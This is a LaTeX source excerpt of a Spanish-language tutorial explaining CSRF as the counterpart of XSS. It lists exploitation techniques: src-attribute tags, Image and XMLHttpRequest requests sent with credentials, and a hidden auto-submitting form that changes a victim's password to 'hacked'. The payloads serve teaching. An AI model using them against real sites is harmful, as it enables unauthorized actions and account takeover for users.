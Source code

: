 \documentclass{article}
\theoremstyle{definition}
\begin{document}
\begin{figure}[h]
  \caption{Ejemplo}\vspace{.2cm}\label{fig:ex}
\centering
\includegraphics[width=.9\textwidth]{ex1}
\end{figure}

CSRF puede pensarse como la vulnerabilidad dual a XSS: mientras XSS abusa de la
confianza que el usuario tiene en la página o aplicación, CSRF abusa de la
confianza que la aplicación tiene en el usuario.

Las formas más comunes de explotar esta vulnerabilidad son mediante:
\begin{enumerate}
\item el atributo \verb+src+ de diferentes elementos:
\begin{itemize}
	\item \verb+<img src="http://host/?command">+
	\item \verb+<script src="http://host/?command">+
	\item \verb+<iframe src="http://host/?command">+
\end{itemize}
\item un objeto \verb+Image+:
  \begin{verbatim}
  <script>
      const img = new Image();
      img.src = "http://host/?command";
  </script>
  \end{verbatim}
\item un objeto \verb+XMLHttpRequest+:
  \begin{verbatim}
  <script>
      const postData = "name=value";
      const xhr = new XMLHttpRequest();
      xhr.open("POST", "https://example.com/shop/voteForProduct", false);
      xhr.withCredentials = true;
      const params = "productId=1337&vote=AAA";
      xhr.send(params);
  </script>
  \end{verbatim}
\item un \verb+form+ oculto que se envía automáticamente:
  \begin{verbatim}
  <form method="POST" id="ezpz" name="ezpz"
   action="https://socialnetwork.com/user/passwordchange">
      <input type="hidden" name="newpass" value="hacked">
  </form>
  <script>document.ezpz.submit()</script>
  \end{verbatim}
\end{enumerate}
\end{document}
